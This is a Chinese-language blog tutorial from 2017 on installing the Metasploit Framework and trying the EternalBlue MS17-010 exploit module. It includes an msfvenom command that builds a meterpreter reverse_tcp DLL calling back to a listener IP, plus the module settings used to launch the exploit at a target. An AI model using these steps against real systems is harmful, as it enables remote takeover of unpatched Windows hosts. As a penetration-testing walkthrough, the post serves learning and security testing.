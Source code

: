 ```yaml
---
title: MetasploitFramework搭建与说明
date: 2017-06-16 20:55:35
categories: Metasploit
---
```

*这里简单记录一下Metasploit的环境搭建以及一些简单的测试*
***
# 系统选择
我个人对于linux内核底层的一些东西是不是很熟悉的,所以对于现在主流的linux发行版,我个人觉得Ubuntu就是面对家庭使用的,Cent OS是服务器大量使用的一种版本,所以,我最终选择了Debian,注意..我不是挑事,也不是信仰问题,只是单纯的比较喜欢这个系统.而且Kali刚好也是基于Debian的发行版本开发的,所以刚好拿来用,如果用Kali的话,那下面这部分就完全不需要看了.
# Metasploit框架安装
1. 安装curl
`apt-get install curl`
2. 执行
```
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && \
  chmod 755 msfinstall && \
  ./msfinstall
```
3. 这样就完成了Metasploit框架的安装,如果还不懂的同学,看这里
---><a target="_blank" href="https://github.com/rapid7/metasploit-framework/wiki/Nightly-Installers"><font color="blue">戳我</cont></div></a>
    这里有安装说明,但是是英文的,看不懂的同学请自行翻译.
# Metasploit简单测试
前段时间NSA爆出的EternalBlue,这个17-010漏洞就有点666了,就用它做个小测试.有大神已经把他移植到Metasploit里了,赶紧fork一下借来玩玩哈哈哈~
1. 下载:<a target="_blank" href="https://github.com/CCCY0/Eternalblue-Doublepulsar-Metasploit"><div style="color:blue">github</div></a>
放到msf的usr/share/metasploit-framework/modules/exploits/windows/smb/目录里,改变.rb文件的目录和生成dll文件的名字
![](/images/Metasploit/1.png)
2. 开启msf数据库
启动数据库：`service postgresql start`
启动msfsploit服务：`service metasploit start`
启动msfconsole：`msfconsole`
使用`db_status`确认数据库是否正确连接
如果数据库未连接,使用`db_connect postgres:123456@127.0.0.1:5433/msf`连接数据库
![](/images/Metasploit/2.png)
>如果没有数据库账户,也没有数据库那么:
*这些配置从网上找的,我没有验证过.*
>启动postgresql `sudo  systemctl start postgresql`
>切换到postgresql `su postgres`
>创建一个postgresql数据库账户 `create user root –P`
>接着，会提示输入密码，然后确认密码
>创建数据库 `createdb --owner=root nexp_db`
>owner参数指定数据库的所有者，后一个参数为数据库名称
>然后退出进入MSF连接数据库 `db_connect root:toor@localhost/nexp_db`
3. 利用ms17-010漏洞扫描工具扫描
![](/images/Metasploit/3.png)
扫描过程省略...
4. 打开多架构兼容模式,安装32位运行库,安装32位wine
` sudo dpkg --add-architecture i386`
`apt-get update`
`apt-get install   lib32z1 lib32ncurses5`
`apt-get install wine`
或者重新安装wine
`rm –rf /root/.wine/` ---删除wine
`wine cmd.exe` --安装wine
这里可能出错,具体以后再说.
5. 生成64位的dll
`msfvemon -p windows/x64/meterpreter/reverse_tcp lhost=192.168.12.110 lport=4444 -f dll -o /root/dll/s11.dll`
这里注意,如果你自己指定目录,需要把.rb文件里面下面那一行.dll文件的目录也修改了.lhost是本地ip.
6. 启动msf调用这个模块并进行配置
![](/images/Metasploit/4.png)
set rhost ---目标ip
set lhost ---本地ip
set target ---架构,根据rb文件来看,用9就可以
set targetarchitecture ---目标架构
set payload windows/... ---payload程序架构
设置好了之后,RUN!
7. 关于meterpreter:这个东西还是挺不错的,关于后渗透的东西,以后再说吧- -.

